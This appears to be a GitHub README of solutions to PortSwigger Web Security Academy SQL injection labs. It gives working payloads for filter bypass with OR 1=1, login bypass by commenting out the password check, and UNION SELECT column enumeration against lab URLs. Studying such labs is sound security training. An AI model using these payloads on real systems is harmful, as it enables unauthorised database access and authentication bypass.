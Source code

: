 # SQL Injection LAbs
=====================================================================================
## APPRENTICE
=====================================================================================

-------------------------------------------------------------------------------------
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
-------------------------------------------------------------------------------------
SQL vuln in the address bar.
Payload →
```
web-security-academy.net/filter?category=Gifts' OR 1=1 --
```
-------------------------------------------------------------------------------------
### SQL injection vulnerability allowing login bypass
-------------------------------------------------------------------------------------

- The SQL injection vuln in the username field can be detected by entering a single coma (’) into it which produces a server side error on the application.
- This error is because we have disturbed the functionality of the sql query.

Payload →

Enter administrator’-- in the username filed and any random password.



Alternatevely, you can use burpsuit to intercept the request as well.

## PRACTITIONER  

-------------------------------------------------------------------------------------
### SQL injection UNION attack, determining the number of columns returned by the query
-------------------------------------------------------------------------------------

There is a chance of SQL Union injection in the url as the application is rendering a table of information which is probalby from a particular table in the db.

For SQL Union attack, the correct number of entries being requested in the orignal query is to be determined by the trial and error method which in this case is 3.
```
web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20NULL,NULL,NULL--
```
-------------------------------------------------------------------------------------
### SQL injection UNION attack, finding a column containing text
-------------------------------------------------------------------------------------

Hit and trial to find the number of columns in the default query.
![image](https://github.com/coder-de-coder/portswigger-academy-solutions/assets/108211570/27b99d53-31d9-4f6d-87de-130f15dc6258)

(BurpSuit ScreenShot shows that we hit the target with 3 NULLs)

Now try replacing each NULL one by one with the given random string in the lab using single quotes.

Payload =>
```
web-security-academy.net/filter?category=Accessories+UNION+SELECT+NULL,{Your string},NULL--
```
